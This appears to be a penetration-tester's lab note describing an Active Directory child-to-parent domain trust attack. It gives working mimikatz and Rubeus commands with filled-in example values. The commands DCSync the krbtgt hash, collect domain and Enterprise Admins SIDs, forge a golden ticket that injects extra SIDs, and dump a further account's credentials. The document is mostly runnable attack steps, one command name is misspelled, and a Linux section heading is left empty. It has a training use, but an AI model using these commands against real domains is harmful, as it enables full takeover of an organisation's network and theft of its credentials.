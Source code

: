 -- -
This is a trust relationship attack that you pull off after you have taken over a child domain. It is used to take over the parent domain by abusing the trust relationship and SIDs. 
#### Requirements
- The `KRBTGT` hash for the child domain
- The `SID` for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The `FQDN` of the child domain.
- The `SID` of the Enterprise Admins group of the root domain
- Mimikatz
## Windows
#### Get KRBTGT via Golden Ticket Attack
We are attempting to get a KRBTGT. KRBTGT Stands for Kerberos Ticket Granting Ticket. It's a ticket for the Service Account used to encrypt and sign all Kerberos tickets granted within the given domain. Can be used to request TGS tickets for any service on any host in the domain. Also known as the #GoldenTicket. This is a well-known #persistence method. 
After you have domain admin (or similar), log into said privileged account on a host (or DC) in the domain. Run DCSync attack to obtain the hash for the KRBTGT account.
```powershell
.\mimikatz.exe
privilege::debug
lsadump::dcsync /user:<domain>\krbtgt
lsadump::dcsync /user:LOGISTICS\krbtgt
```

The child domain SID should be output by mimikatz if you use the method linked above, but otherwise you can also determine this by running the following on the child domain you have compromised via PowerView:
```powershell
Get-DFomainSID
```
#### Get Enterprise Admins Group's SID
```Powershell
# PowerView
Get-DomainGroup -Domain <domain> -Identity "Enterprise Admins" | select distinguishedname,objectsid
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

#Powershell
Get-ADGroup -Identity "Enterprise Admins" -Server <domain>
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL".
```
#### Create Golden Ticket
**mimikatz**
```powershell
mimikatz.exe
kerberos::golden /user:<username> /domain:<domain> /sid:<child domain sid> /krbtgt:<krbtgt hash> /sids:<enterprise admin sid> /ptt

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# verify golden ticket was created and resides in memory, run outside mimikatz
klist
```

**Rubeus**
```powershell
.\Rubeus.exe golden /rc4:<krbtgt hash> /domain:<domain> /sid:<child domain sid> /sids:<enterprise admin sid> /user:<username> /ptt

.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

# verify golden ticket was created and resides in memory
klist
```
#### DCSync attack
```powershell
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

## Linux
